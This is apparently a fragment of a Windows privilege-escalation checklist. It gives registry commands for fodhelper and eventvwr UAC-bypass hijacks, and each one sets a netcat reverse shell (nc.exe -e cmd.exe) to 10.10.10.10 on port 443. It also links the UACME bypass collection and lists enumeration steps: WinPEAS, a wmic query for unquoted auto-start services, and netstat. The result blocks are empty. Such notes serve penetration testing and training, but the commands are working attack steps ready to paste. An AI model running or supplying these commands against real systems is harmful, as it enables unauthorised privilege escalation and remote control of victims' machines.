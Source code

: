 fodhelper? eventvwr?

```
# fodhelper.exe
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /d "c:\windows\tasks\nc.exe 10.10.10.10 443 -e cmd.exe"  /f
  
# eventvwr.exe
REG ADD HKCU\Software\Classes\mscfile\shell\open\command
REG ADD HKCU\Software\Classes\mscfile\shell\open\command /v DelegateExecute /t REG_SZ
REG ADD HKCU\Software\Classes\mscfile\shell\open\command /d "C:\windows\tasks\nc.exe 10.10.10.10 443 -e cmd.exe" /f
```

For more, check the following repo.

[https://github.com/hfiref0x/UACME](https://github.com/hfiref0x/UACME)


```
# Result:

```


## Web server log files? Traffic come from?

```
# Result:

```

## WinPEAs

```
# Result:

```


## Services (Auto, Unquoted)

```
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows"

# Result:

```


## netstat

```
netstat -ano

# Result:

```
